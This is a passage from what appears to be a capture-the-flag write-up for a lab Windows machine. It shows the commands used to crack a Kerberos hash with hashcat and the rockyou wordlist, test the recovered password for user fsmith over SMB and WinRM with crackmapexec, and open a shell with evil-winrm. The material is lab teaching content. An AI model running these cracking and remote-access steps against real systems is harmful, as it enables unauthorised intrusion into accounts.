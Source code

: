 ```bash
hashcat -m 18200 -a 0 hash_fsmith /usr/share/wordlists/rockyou.txt 
```

![hashcat_smith](screenshots/hashcat_smith.png)

Password found: **Thestrokes23**

---
### 3.4 Validating Credentials

Check SMB and WinRM access:

```bash
crackmapexec smb 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'
crackmapexec winrm 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'
```

![winrm_fsmith](screenshots/winrm_fsmith.png)

Login is successful.

---
### 3.5 WinRM Access

We gain a shell with Evil-WinRM:

```bash
evil-winrm -i 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'
```
